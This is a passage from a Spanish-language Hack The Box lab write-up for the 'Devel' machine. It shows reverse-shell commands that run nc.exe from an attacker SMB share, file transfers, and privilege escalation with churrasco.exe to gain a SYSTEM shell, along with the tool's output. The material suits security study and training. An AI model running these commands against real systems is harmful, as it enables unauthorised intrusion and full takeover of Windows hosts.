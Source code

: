 ```bash
cmd /c \\<ip atacante>\smbFolder\nc.exe -e cmd <ip atacante> 443
```

<br/>

![web shell](/image/htb-writeup-devel/cmd_aspx.png)

<br/>

Ahora estarás dentro de la máquina Windows en la consola donde te pusiste en escucha con el puerto **443**.

## Escalada de privilegios

Si vemos nuestros privilegios con `whoami /priv` veremos que tenemos `SetImpersonatePrivilege`. Esto quiere decir que parece ser vulnerable a JuicyPotato. Sin embargo, si ejecutamos `systeminfo` veremos que es una versión muy antigua de Windows.

En estos casos debemos de hacer uso de otra herramienta que explota este mismo privilegio pero en este tipo de Windows llamada [churrasco](https://github.com/Re4son/Churrasco/). Se puede descargar desde [este link](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe).

Ahora hay que transferir `nc.exe` y `churrasco.exe` a la máquina víctima. Para ellos nos movemos a `c:\windows\temp\privesc` para que no haya problemas de permisos. 

Transferimos los archivos por nuestro servidor de *smb*:

```cmd
c:\WINDOWS\Temp\privesc>copy \\<ip atacante>\smbFolder\churrasco.exe churrasco.exe
copy \\<ip atacante>\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

c:\WINDOWS\Temp\privesc>copy \\<ip atacante>\smbFolder\nc.exe nc.exe
copy \\<ip atacante>\smbFolder\nc.exe nc.exe
        1 file(s) copied.
```

<br/>

Una vez con los ejecutables en la máquina víctima, nos ponemos en escucha en la máquina atacante para entablar otra *reverse shell* (en mi caso usaré el puerto **4321**):

```bash
sudo rlwrap nc -nlvp 4321
```
<br/>

Y ahora usamos `churrasco.exe` en la máquina víctima:

```cmd
churrasco.exe -d "c:\windows\temp\privesc\nc.exe -e cmd <ip atacante> 4321"

/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 212 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x718
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x710
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
